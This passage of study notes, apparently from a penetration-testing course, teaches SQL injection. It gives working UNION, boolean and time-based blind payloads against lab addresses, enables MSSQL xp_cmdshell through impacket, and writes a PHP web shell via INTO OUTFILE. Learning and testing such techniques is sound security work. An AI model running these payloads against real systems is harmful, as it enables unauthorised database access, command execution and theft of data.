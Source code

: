 #### UNION-based Payloads
- UNIONs enable the execution of an extra SELECT statement. For UNION SQLi to work:
	- The injected UNION query has to include the same number of columns as the original query.
	- The data types need to be compatible between each column.
- So how do you craft a payload?
	- Say a website is using our input to craft a query. We need to know exactly how many columns are in the table being queried. To determine this, we could try the SQLi `' ORDER BY 1--//` which will order the columns by the number we supply (eg `1`). If use the command to instruct the database to order by the Nth column when the table doesn't have that many columns, then we will get an error. Therefore, we can start with `' ORDER BY 1--//` and increment `1` until we get an error, thus informing us how many columns there are.
	- Use some characters (not explained in detail by offsec) to conclude the first query, then `UNION`, then the second query:
		- `%' UNION SELECT database(), user(), @@version, null, null --//`
			- Note: `@@version` is the syntax tot get the version in MySQL
			- You need to pad the query with `null`s to the number of columns in the target table (5 in this example)
- Try enumerating the [MySQL information schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) to learn more about other table in the database. Example:
	- `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`

#### Blind SQL Injections
- These rely on interpreting the output from the web application after it queries and displays info form the database.
	- Boolean-based SQLi example:
		- `http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //`
	- time-based SQLi payload example:
		- `http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //`

### Manual and Automated Code Execution
#### Manual Code Execution
- MSSQL has [xp_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which takes a string and passes it to a command shell for execution. It is disabled by default, but can be enabled like so:
	-
		```
		kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
		Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
		...
		SQL> EXECUTE sp_configure 'show advanced options', 1;
		[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
		SQL> RECONFIGURE;
		SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
		[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
		SQL> RECONFIGURE;
		```
	- After configuring xp_cmdshell, we can start executing commands:
		- `SQL> EXECUTE xp_cmdshell 'whoami';`
- MySQL database variants don't offer a single function to escalate to RCE, but we can abuse the `SELECT INTO_OUTFILE` statement to write files on the web server.
	- Note: For this attack to work, the file location must be writable to the OS user running the database software.
	- Example: `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`
		- This query is non-sensical and will probably result in an error, but perhaps not before the reverse shell snippet is written to the destination. If we can then access that file, we'll get the shell.
		- NOTE: Remember to do some research to figure out where to place the file. For example, with MySQL, you'll probably access a file saved to `/var/www/html/tmp/webshell.php` at `http://xxx.xxx.xxx.xxx/tmp/webshell.php`